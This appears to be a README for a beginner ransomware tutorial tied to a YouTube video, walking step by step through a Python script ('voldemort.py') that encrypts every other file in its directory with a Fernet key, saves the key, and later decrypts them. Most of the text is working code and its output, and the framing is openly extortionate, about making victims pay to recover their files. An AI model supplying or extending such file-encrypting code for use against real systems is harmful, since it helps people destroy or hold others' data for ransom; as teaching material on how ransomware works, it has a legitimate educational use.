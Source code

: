 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
l-4zrPy0VkR8pDJnGvsxyy2UEXGiV0AKkpEQR-fzD14=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo9_vsmrW0ocPft7966tBWfmDGPGuULoBZLck3RAbj2MPsLUWLoErkInZD5hWc4MVuuBzs99_EzxOvVCckm1kSqq27hhhO0Atscgp6N4Y73BcN6nIJ9hV0Lf6TcccX0b4NQxdOHP0vFXQ4wHA8eipTaASBhfl_02kekjYlbtDo5fOhWPnO8mDwYHcrxrblkOQwmvhm9_kwUKShDc4Ign2bk1D72A==%
$ cat file2.txt
gAAAAABo9_vsnw_nYyQ_29Z-Ol9W322Qf6hScuHtGS6YgB8A1mik3dlDoKi11PrfFGDIoDr22ddLw-yeT3D-dulUuvQBz-t0LB02vJhdmjJFBgLUCYl0FajFaIyYXb31dkrUlYLoSuG7FPchBeT4EG6-1lllQFbV9QBQlKsPXNZOLU6j551Q54Kg4XhpHPTEuym02dZaC0YOIn7B5hFFj8EtROpXKqqDHw==%
$ cat hey.txt
gAAAAABo9_vsLnZX08uVJR-veRrK-SNBhBLB3oLAhxl850VmOYnSGTkjLoPmHzNGKmjbZNBcOMMUUxLUKpN50_XdErY_C-TmzgMD_O6pzhllzdzZ-kYL8zKEgDI7VSAsSTsRkY12-kNpcLuQnvQz_7KDCqFXE6N-605rrYo0tQr2gd5RIp2_IoyHJBWT1etHcMSjkJ3u8IXLhcf3_h6-9RHkMlRTFkxFFQ==%
$ cat pleasedonthurtme.txt
gAAAAABo9_vsBkcYTvBVAh46_xe24bRQtPJLbmbZj2RQhzY6XFW5NtPQZukDfkAkzyH-KDu5rrnAhd1dZjGKjtNM7VR3U_DZs8-FtHKCU2MbjfpTeA59CJel17U577amMDzeiJV5RWF0L4CTXBwR1a8_4TRdTKNReT7DP4nzIc73iprGF9qqjQbPOJJmBVofby7mbYmRJCC9F53KMvd-NM9xFhyfu-q8uA==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
uGb51hGWiq-3FEslUhjYNDn2HBWs8JXl-X1RHUqiiSw=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA encrypting) file:

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>
